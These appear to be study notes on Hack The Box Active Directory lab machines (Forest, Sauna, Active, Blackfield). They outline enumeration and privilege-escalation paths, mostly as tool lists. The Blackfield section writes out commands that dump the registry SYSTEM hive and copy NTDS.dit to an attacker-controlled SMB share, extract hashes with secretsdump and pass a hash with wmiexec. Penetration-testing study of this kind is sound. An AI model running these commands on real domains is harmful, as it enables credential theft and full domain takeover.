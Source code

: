 
Now I will make different attack plans based on the box but it was clearly written that will get fail if we went with this strategy.


# Forest:
#### **Things to Look For**:

1. **Ports and Services**:
    
    - LDAP (389) and SMB (445) for AD enumeration.
    - RDP (3389) for potential remote access.
2. **AD Enumeration**:
    
    - Kerberos attacks (ASREPRoasting, Kerberoasting).
    - Domain trusts and privilege relationships with BloodHound.
3. **Credentials**:
    
    - Always check for hashes or passwords in dumped data.
    - Look for misconfigurations in permissions (`WriteDACL` or `WriteOwner`).
4. **Foothold and Escalation**:
    
    - Use PowerShell tools like PowerView for post-compromise enumeration.
    - Escalate using credentials and lateral movement (e.g., PsExec).


ASREPRoasting
Enumeration with Bloodhound
DCSync Attack

ldapsearch -h <ip_Address> -p 389 -x -b "dc=htb,dc=local"

Enumeration:
Nmap 
Ldap

Foothold:
GetNPUsers.py
HashCat 

1st way Privilege Escalation:
Bloodhound
Exchange Windows Permission -> WriteDacl
PowerView
Secretsdump/Psexec


2nd way Privilege Escalation:
Golden Ticket
Psexec / smb





# Sauna:

#### **Things to Look For**:

1. **Services and Protocols**:
    
    - LDAP (389) and Kerberos (88) for AD attacks.
    - SMB (445) for share enumeration and lateral movement.
    - Web services for potential vulnerabilities and misconfigurations.
2. **Hashes and Credentials**:
    
    - Use tools like `GetNPUsers.py` and `kerbrute` to extract Kerberos hashes.
    - Crack credentials with `Hashcat` and use them for WinRM or SMB access.
3. **Privilege Escalation**:
    
    - Enumerate AD relationships with **BloodHound**.
    - Perform DCSync attacks with `secretsdump.py` to extract domain hashes.


ASREPRoasting
DCSync Attack

Enumeration:
Nmap 
Ldap
SMB
Web

Foothold:
HashCat 
WinRM

Privilege Escalation:
Bloodhound
DCSync 


Sauna:

Enumeration:
Nmap 
enum4linux
kerbrute 
GetNPUsers.py
HashCat

Foothold:
HashCat 
WinRM -> Evil-winrm

Privilege Escalation:
Bloodhound
DCSync 
secretsdump.py



# Active:

- **Weak Credentials**:
    
    - Default or embedded credentials in GPP files.
    - Reuse of credentials across services.
- **AD Exploitation**:
    
    - Enumerate SPNs and other Kerberos-related vulnerabilities.
    - Misconfigured permissions or roles for privilege escalation.
- **SMB Shares**:
    
    - Look for sensitive files like GPP configurations or password stores.
- **Service-Specific Vulnerabilities**:
    
    - Focus on LDAP, SMB, and Kerberos for AD environments.


SMB enumeration techniques

Enumeration:
Nmap
SMB

Foothold:
GPP
Authenticated Enumeration

Privilege Escalation:
Kerberoasting


GetUserSPNs.py active.htb/svc_tgs:'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request


# Blackfield:

### **Things to Look For**:

1. **AD Exploitation**:
    
    - Leverage Backup Operators or misconfigured permissions for privilege escalation.
    - Target files like `NTDS.dit` and `SYSTEM` hive for domain-wide credential access.
2. **Credential Handling**:
    
    - Always analyze dumped hashes with tools like `secretsdump.py`.
3. **SMB Shares**:
    
    - Look for misconfigurations or sensitive files in shared directories.
4. **Enumeration Focus**:
    
    - LDAP and Kerberos enumeration for AD environments.

Leveraging Backup Operators group membership (SeBackup and SeRestore privileges)
Dumping credentials for LSASS
Anonymous / Guest Enumeration


Enumeration:
Nmap

Foothold:
SMBMAP
Smbclient
GetNPUsers

Privilege Escalation:
BloodHound
Rpcclient
lsass 
ldapsearch
Dumping Hashes with WBAdmin
Robocopy
Steal Ntds

reg save HKLM\SYSTEM C:\system.hive

cp ntds.dit \\10.10.14.3\smb\NTDS.dit
cp system.hive \\10.10.14.3\smb\system.hive

secretsdump.py -ntds NTDS.dit -system system.hive LOCAL

wmiexec.py -hashes :184fb5e5178480be64824d4cd53b99ee administrator@10.10.10.192

wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:c:\Windows\ntds\ntds.dit -quiet

